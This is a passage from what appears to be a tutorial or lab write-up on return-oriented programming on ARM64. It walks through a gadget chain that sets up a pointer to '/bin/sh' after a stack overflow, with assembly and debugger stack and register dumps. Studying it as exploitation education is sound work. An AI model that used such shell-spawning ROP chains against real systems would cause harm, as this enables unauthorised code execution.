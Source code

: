 Our first gadget will load into `x19    ` and `x20` the pointer to `/bin/sh\0`
and some garbage (`CCCCCCCC`) from `sp + 16`, however `sp + 16` is _not_
pointing at `/bin/sh\0`.

We know that the `sp` will be moved down `144` at the end of `vulnerable`, so
think of `sp` pointing to `0x0090`, this would be the top of the `main` stack
frame.  If we look at the end of main:

```assembly  
  0x00000000004006dc <+44>:     ldp     x29, x30, [sp], #32  
```

Above will load our `BBBBBBBB` into `x29` and our first gadget address into
`x30`, then move the stack down 32 bytes (now `sp` is pointing to line
`0x00b0` when the gadget executes.  Now `sp + 16` is pointing to our string.

Above that however is the `x29`, `x30` pair that we need to setup for the
first gadget to chain to the second gadget.

This can get quite maddening.  Just remember at the end of each `ret`, `sp`
will be pointing to the top of the previous stack frame, and the first two
lines are `x29` and `x30` then your payloads, padding, etc... and you also
need to track change in `sp` after each `ldp x29, x30, [sp], #nnn`.

Setting a breakpoint at `*main+44` and continuing on:

```  
0x0000ffffe27d9b60│+0x0000: 0x4242424242424242   ← $x29, $sp  
0x0000ffffe27d9b68│+0x0008: 0x0000ffff9eac5cbc  →   ldp x19,  x20,  [sp,  #16]  
0x0000ffffe27d9b70│+0x0010: 0x4343434343434343  
0x0000ffffe27d9b78│+0x0018: 0x4343434343434343  
0x0000ffffe27d9b80│+0x0020: 0x4343434343434343  
0x0000ffffe27d9b88│+0x0028: 0x0000ffff9eae6080  →  <__xpg_basename+120> mov
x0,  x19  
0x0000ffffe27d9b90│+0x0030: 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f
("/bin/sh"?)  
0x0000ffffe27d9b98│+0x0038: 0x4444444444444444  
0x0000ffffe27d9ba0│+0x0040: 0x4444444444444444  
0x0000ffffe27d9ba8│+0x0048: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)  
```

The stack pointer was moved to the `BBBBBBBB` and first gadget we set in
stack.

One single step:

```  
$x29 : 0x4242424242424242 ("BBBBBBBB"?)  
$x30 : 0x0000ffff9eac5cbc  →   ldp x19,  x20,  [sp,  #16]  
$sp  : 0x0000ffffe27d9b80  →  0x4343434343434343 ("CCCCCCCC"?)  
$pc  : 0x00000000004006e0  →  <main+48> ret  
$cpsr: [negative ZERO CARRY overflow interrupt fast]  
$fpsr: 0x0  
$fpcr: 0x0  
─────────────────────────────────────────────────────────────────────────
stack ────  
0x0000ffffe27d9b80│+0x0000: 0x4343434343434343   ← $sp  
0x0000ffffe27d9b88│+0x0008: 0x0000ffff9eae6080  →  <__xpg_basename+120> mov
x0,  x19  
0x0000ffffe27d9b90│+0x0010: 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f
("/bin/sh"?)  
0x0000ffffe27d9b98│+0x0018: 0x4444444444444444  
0x0000ffffe27d9ba0│+0x0020: 0x4444444444444444  
0x0000ffffe27d9ba8│+0x0028: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)  
```
